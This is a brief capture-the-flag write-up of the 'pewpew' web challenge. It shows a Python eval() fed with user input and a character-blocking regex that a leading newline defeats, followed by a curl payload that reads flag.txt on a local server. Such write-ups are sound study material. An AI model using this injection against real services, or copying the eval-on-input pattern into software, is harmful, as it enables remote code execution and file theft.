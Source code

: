 ```yaml
---
title: pewpew
published: 2024-08-09
description: 'pewpew writeup from Defensys CTF 2024'
tags: [web, ctf]
category: 'challenge'
draft: false 
lang: ''
---
```



### Code analysis
we see this line here where `user_code` is supplied by the user to an eval function that will execute python code:
`result = eval(user_code)`

but before that there is a strict regex that will stop us from entering any characters in `user_code`:
```python
if re.match(".*[\x20-\x7E]+.*", user_code):
	return jsonify({"output": "PEW PEW you can't use chars"}), 403
```

## Solution
`re.math` if used against multiple lines it will check only the first line so the solution is to simply enter an empty new line and then in the second write our payload

* run the following curl command : 
```bash
curl -X "POST" http://127.0.0.1:1337/pew -d "pew=
open('flag.txt').read()"
```


